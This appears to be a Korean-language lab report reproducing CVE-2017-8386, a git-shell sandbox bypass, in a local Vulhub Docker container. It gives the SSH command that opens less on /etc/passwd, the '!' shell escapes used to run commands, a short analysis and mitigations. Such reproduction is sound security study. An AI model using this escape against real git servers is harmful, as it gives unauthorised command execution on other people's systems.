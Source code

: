 # CVE-2017-8386: git-shell Sandbox Bypass to RCE PoC

## 1. 개요
Git-shell은 SSH를 통해 제한된 git 명령만 허용하는 환경을 제공합니다.  
하지만 특정 버전의 git-shell(2.12.2 등)에서는 `less` 명령어를 악용해  
sandbox를 우회하고 시스템 명령어를 실행할 수 있는 취약점(CVE-2017-8386)이 존재합니다.

본 보고서는 해당 취약점에 대한 PoC를 진행하고 과정을 정리한 것입니다.

## 2. 환경 구축

### 2.1 사용 도구 및 버전
- Docker: 24.0.7
- Docker-Compose: v2.34.0
- Host OS: macOS
- Target OS: Ubuntu 16.04 (컨테이너 내부)
- Git Version: 2.12.2
- SSH Server

### 2.2 Vulhub 레포지토리 클론

git clone https://github.com/phith0n/vulhub.git
cd vulhub/git/CVE-2017-8386/

### 2.3 docker-compose.yml 및 Dockerfile 구성
	• Ubuntu 16.04 베이스 이미지
	• Git 2.12.2 소스 설치
	• OpenSSH 서버 설치 및 실행
	• git-shell 환경 설정 (git 사용자 생성)

### 2.4 컨테이너 빌드 및 실행
docker-compose build
docker-compose up -d
docker ps
	• 컨테이너 실행 확인 (git-shell-cve-2017-8386)

### 2.5 SSH 키 등록 및 환경 설정
	1.	로컬에서 id_rsa.pub 생성 및 복사
	2.	컨테이너 내부 접속 및 git 사용자로 전환
	3.	authorized_keys 등록

docker exec -it git-shell-cve-2017-8386 /bin/bash
chsh -s /bin/bash git
su git
mkdir -p ~/.ssh
chmod 700 ~/.ssh
touch ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
vim ~/.ssh/authorized_keys

### 2.6 추가 패키지 설치
apt update
apt install less -y
apt install man-db -y
	•	PoC 수행을 위해 less, man 패키지 설치 완료

## 3. PoC 과정

### 3.1 정상적인 SSH 접속
ssh -p 3322 -i id_rsa -t git@127.0.0.1 "less /etc/passwd"
• less 화면 진입 성공
• ! 명령어를 통해 시스템 명령어 실행 가능

### 3.2 명령어 실행 (sandbox 우회)
!id -> 사용자 ID, 그룹 ID 출력
!whoami -> 현재 사용자(git)
!uname -a -> 시스템 커널 정보 출력
!ls /home/git -> git 홈 디렉토리 파일 목록 출력

## 4. 취약점 분석
	• git-shell 환경에서는 사용자가 시스템 명령어를 실행할 수 없게 제한함.
	• 그러나 git-upload-archive --help 명령어를 통해 내부적으로 less 호출이 가능.
	• less 명령어는 ! 기능을 통해 시스템 쉘 명령 실행을 지원.
	• 결과적으로 git-shell sandbox를 우회하여 임의 명령어 실행이 가능함.

## 5. 대응 방안
	• 취약한 버전의 git-shell(2.12.2 등)을 사용하지 말고 최신 버전으로 업데이트
	• git-shell 명령어 허용 목록을 엄격히 관리
	• 필요시 less와 같은 명령어를 서버에서 제거 또는 제한 설정

## 6. GitHub 레포지토리 링크
https://github.com/suz1n/vulhub
